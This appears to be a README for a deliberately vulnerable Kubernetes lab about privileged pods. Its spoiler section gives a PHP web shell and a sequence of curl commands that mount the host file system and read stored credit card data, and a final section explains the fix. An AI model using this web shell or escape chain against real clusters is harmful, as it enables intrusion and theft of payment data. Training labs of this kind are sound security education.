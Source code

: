 # Privileged Pod

## Context
Privileged pod (AKA `privileged`) is one of the Security Context flags for a Pod or Container.
Privileged containers can do nearly everything a process on the host can do, and provide no isolation from other workloads. This kind of a setting should be avoided where possible.

## Env components
### Web
Vulnerable application with RCE and privileged access.

* Deployment - `k8s/PrivilegedPod/web/deployment.yaml`

    This `k8s` deployment contains the unsecured instruction `privileged: true`
* Service - `k8s/PrivilegedPod/web/service.yaml`

<img src="pics/web.png?raw=true" width="400">

### Payment
Payments processing microservice. Completely protected ;).

* Deployment - `k8s/PrivilegedPod/payment/deployment.yaml`
* Service - `k8s/PrivilegedPod/payment/service.yaml`

<img src="pics/payment.png?raw=true" width="400">

## Exploit

<details>
  <summary>Spoiler alert</summary>
    
  Your target is to steal users credit cards. Cards data is located in `payment` microservice (which has no security issues). But `web` microservice has an RCE vulnerability (and has `privileged`). This allows us to access any data in the cluster, including cards data.

  1. Upload file `shell.php`:
      ```php
      <?php
      echo '<pre>';
      var_dump(system($_GET['cmd']));
      echo '</pre>';
      ?>
      ```
  2. Create temporary directory for host file system `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=mkdir%20/tmp/host`
  3. Mount host's file system (`sda1` in my case but could vary) `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=mount%20/dev/sda1%20/tmp/host`
  4. Find file `cards.json` in hosts filesystem `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=find%20/tmp/host%20-name%20"cards.json"`
  5. Get stored cards `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=cat%20<👆>`
</details>

## Fix

To fix the problem you need to remove `privileged` flag from [web/deployment.yaml](web/deployment.yaml#L27-L28). It will not help to protect `web` microservice but prevent steeling of credit cards from `payment` microservice.
